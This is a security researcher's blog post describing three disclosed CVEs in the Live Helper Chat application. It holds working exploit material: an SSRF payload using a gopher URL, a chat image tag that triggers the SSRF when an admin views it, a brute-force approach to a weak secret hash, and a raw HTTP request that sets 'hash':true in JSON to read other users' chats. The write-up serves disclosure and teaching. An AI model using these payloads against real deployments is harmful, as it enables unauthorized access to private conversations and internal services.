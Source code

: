 #Live Helper Chat CVEs
1649737152

Did a secure code review on Live Helper Chat as part of a pentest, found some CVEs, and learned some tricks that I think are cool to have in mind while doing bug bounty.

## Authenticated SSRF - [CVE-2022-1191](https://huntr.dev/bounties/7264a2e1-17e7-4244-93e4-49ec14f282b3/)

An easy SSRF on `http://127.0.0.1/index.php/cobrowse/proxycss/1?base=gopher://0:80/xGET%20/&css=` , with some host bypassing. Nothing much here, but you need to be authenticated, altho there's no CSRF protection the cookie has `SameSite=Lax` :c

Just send the SSRF link on the chat as an image (;

`[img]https://demo.livehelperchat.com/index.php/cobrowse/proxycss/1?base=gopher://0:80/xGET%20/&css=[/img]`

When the Admin sees the "image" the SSRF will trigger, a nice little chain to prove impact.

## Weak secret - [CVE-2022-1235](https://huntr.dev/bounties/92f7b2d4-fa88-4c62-a2ee-721eebe01705/)

The application used secretHash as a secret on lots of functionalities, but it was defined as :

```php
<?
$cfgSite->setSetting( 'site', 'secrethash', substr(md5(time() . ":" . mt_rand()),0,10));
```

10 characters of only hexadecimal, making 16^10 possilibities ( 1.099.511.627.776 ), totally brute-forceable. Also, don't use mt_rand, it's pretty broken. You can get an sha1 of it on the captcha :

```php
<?
$hash = sha1(erLhcoreClassIPDetect::getIP() . $Params['user_parameters']['timets'] . erConfigClassLhConfig::getInstance()->getSetting( 'site', 'secrethash' ));
```

You know every argument but the hash, pass it to hashcat and profit.

For bug bounty, trying to guess how hashes are generated is a valid strategy, better if you can reverse engineer it on a mobile app or some javascript, found a couple of bugs that way.

## Type Juggling 2 IDOR - [CVE-2022-1176](https://huntr.dev/bounties/3e30171b-c9bf-415c-82f1-6f55a44d09d3/)

The app used loose comparison on a security feature, if you have the hash you can read the content

```php
<?
    if ($chat instanceof erLhcoreClassModelChat && $chat->hash == $requestPayload['hash'])
```

But it accepts JSON as input, oh no (ﾉಥ益ಥ)ﾉ

```php
<?
$requestPayload = json_decode(file_get_contents('php://input'),true);
```

just replace it to true and bypass the check (づ｡◕‿‿◕｡)づ

```
POST /eng/widgetrestapi/fetchmessages HTTP/1.1
Host: demo.livehelperchat.com
Cookie: lhc_vid=eb9bc0c044919538c5b1
Content-Length: 62
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://demo.livehelperchat.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://demo.livehelperchat.com/
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{
   "chat_id":2,
   "hash":true,
   "lmgsid":1,
   "theme":1,
   "new_chat":true
}
```

Every time I see a JSON now I'll put a true somewhere.

## Closing thoughts

Always chain authenticated vulnerabilities, not ignore hashes, and put true ( or Array ) every-fucking-where.

Also, shoutout to [huntr.dev](https://huntr.dev), made it really easy to send the vulnerabilities and talk directly to the dev, they also managed the whole CVE process, having a bounty on projects on github is really nice (altho small at the moment, >0 is nice anyway) I don't have any clue how they make money :p